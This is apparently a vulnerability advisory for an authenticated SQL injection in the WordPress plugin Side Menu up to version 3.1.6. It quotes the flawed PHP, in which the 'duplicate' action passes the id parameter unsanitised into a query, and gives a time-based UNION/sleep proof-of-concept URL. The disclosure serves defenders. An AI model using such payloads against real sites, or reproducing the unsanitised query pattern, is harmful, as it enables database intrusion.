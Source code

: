 # Side Menu <= 3.1.6 - Authenticated SQL Injection
## Description
    The menu update functionality of the plugin, available to Administrator users takes the id GET parameter and uses it into an SQL statement without proper sanitisation, validation or escaping, therefore leading to a SQL Injection issue.   
## Affects Plugins
    Side Menu <= 3.1.6 (the latest version at this time)
    https://wordpress.org/plugins/side-menu/
## Author
    pang0lin@webray.com.cn inc 
## Detail
    The issue is occured at file side-menu-lite/admin/partials/include-data.php. When the parameter $act equals to 'duplicate', the parameter id is derectly used by mysql select sql. 
```
if ( $act == "update" ) {
	$rec_id = absint( $_REQUEST["id"] );
	$result = $wpdb->get_row( "SELECT * FROM $data WHERE id=$rec_id" );
	if ( $result ) {
		$id         = $result->id;
		$title      = $result->title;
		$param      = unserialize( $result->param );
		$tool_id    = $id;
		$add_action = 2;
		$btn        = esc_attr__( 'Update', $this->plugin['text'] );
	}
} elseif ( $act == "duplicate" ) {
	$rec_id = $_REQUEST["id"];
	$result = $wpdb->get_row( "SELECT * FROM $data WHERE id=$rec_id" );
	if ( $result ) {
		$id    = "";
		$title = "";
		$param = unserialize( $result->param );
		$last  = $wpdb->get_col( "SELECT id FROM $data" );;
		$tool_id    = max( $last ) + 1;
		$add_action = 1;
		$btn        = esc_attr__( 'Save', $this->plugin['text'] );
	}
} else {
	$id         = "";
	$title      = "";
	$last  = $wpdb->get_col( "SELECT id FROM $data" );
	$tool_id    = !empty($last) ?  max( $last ) + 1 : 1;
	$param      = '';
	$add_action = 1;
	$btn        = esc_attr__( 'Save', $this->plugin['text'] );
}

```
## Proof of Concept
http://192.168.65.26/wp/wp-admin/admin.php?page=side-menu-lite&tab=add-new&act=duplicate&id=0 union select 1,2,sleep(5)
Visit this page, it will sleep more than 5 seconds.

![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_side-menu_sqli.png "Wordpress plugin side-menu sqli")
